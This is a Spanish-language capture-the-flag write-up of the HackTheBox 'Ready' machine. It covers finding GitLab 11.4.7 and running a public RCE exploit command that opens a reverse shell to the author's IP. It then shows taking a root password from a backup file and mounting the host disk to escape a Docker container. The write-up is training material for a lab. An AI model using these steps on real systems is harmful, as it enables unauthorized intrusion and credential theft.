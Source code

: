 ```yaml
---
layout: post
title:  "HackTheBox - Ready"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027150-bc1e52b6-053c-4aa6-87f6-5970850653de.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```

Maquina Linux nivel medio

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**

- 22 SSH
- 5080 HTTP "GitLab"

### Gitlab

Para poder ingresar tuve que registrarme:
```http
http://10.10.10.220:5080/users/sign_in
```
![RegisterLogin](https://user-images.githubusercontent.com/47476901/119669294-3ca7ad80-be38-11eb-9974-73cae9331abc.png)



Mientras miraba Gitlab me di cuenta que tenia la version 11.4.7 y encontré un RCE que esta disponible.

![Searchsploit](https://user-images.githubusercontent.com/47476901/119669311-40d3cb00-be38-11eb-8ac5-df1bf27849cb.png)

## Explotación: <a name="explotacion"></a>

Este exploit nos crea un rce en un proyecto de gitlab que nos da una reverseshell al ejecutarlo.

- <a href="https://www.exploit-db.com/exploits/49334" target="_blank">Exploit Here</a>


```bash
python3 rce.py -u erik1 -p erik1234 -g http://10.10.10.220 -l 10.10.14.31 -P 1234
```

![ExploitRCE](https://user-images.githubusercontent.com/47476901/119669333-44675200-be38-11eb-957b-db84c295605a.png)

Este exploit nos crea un proyecto que nos ofrece una reverse shell, abrimos el proyecto para ejecutar la reverse.

Ponemos en escucha con el puerto indicado en el exploit:

![ReverseShell](https://user-images.githubusercontent.com/47476901/119669469-61038a00-be38-11eb-8de0-2c852d6f0959.png)

## Escalación de Privilegios: <a name="escalacion"></a>
La flag de user la podemos encontrar en  "/home/dude/user.txt".

![UserFlag](https://user-images.githubusercontent.com/47476901/119669485-64971100-be38-11eb-8089-4a9cbc8d0877.png)

En la ruta /opt/backups/gitlab.rb encontraremos un backup con la contraseña root del contenedor.

![FindPasswordRoot](https://user-images.githubusercontent.com/47476901/119681371-4c2bf400-be42-11eb-96da-72a78471ff0d.png)

Usamos la contraseña que hemos encontrado en el backup y accedemos a usuario root.

![LoginRoot](https://user-images.githubusercontent.com/47476901/119681390-4fbf7b00-be42-11eb-8746-3ce9e9af66a4.png)


Al estar dentro de un docker tendremos que intentar recopilar información fuera de el, para ello haremos lo siguiente:

Nos montamos la partición del host del contenedor para poder visualizarlo, allí encontraremos la flag:

![MountDocker](https://user-images.githubusercontent.com/47476901/119681411-55b55c00-be42-11eb-9035-b2cf24373cad.png)


![RootFlag](https://user-images.githubusercontent.com/47476901/119681425-5b12a680-be42-11eb-91ad-9c1584666773.png)


**Maquina Completada**
